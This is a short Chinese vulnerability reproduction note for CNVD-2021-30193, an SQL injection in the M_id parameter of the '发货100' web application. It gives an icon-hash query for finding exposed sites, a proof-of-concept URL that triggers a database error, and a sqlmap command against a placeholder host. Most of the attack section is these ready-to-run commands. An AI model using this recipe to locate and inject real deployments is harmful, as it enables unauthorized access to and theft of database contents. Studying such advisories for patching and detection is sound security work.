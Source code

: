 # 发货100 M_id SQL注入漏洞 CNVD-2021-30193

## 漏洞描述

发货100 M_id参数存在SQL注入漏洞， 攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
发货100
```

## 网络测绘

```
icon_hash="1420424513"
```

## 漏洞复现

主页面如下

![](./images/202202170900267.png)

使用POC

```plain
/?M_id=1%27&type=product
```

![](./images/202202170900051.png)

数据库出现报错, 使用Sqlmap注入

```plain
sqlmap -u 'http://xxx.xxx.xxx.xxx/?M_id=11%27&type=product' -p M_id
```

![](./images/202202170900124.png)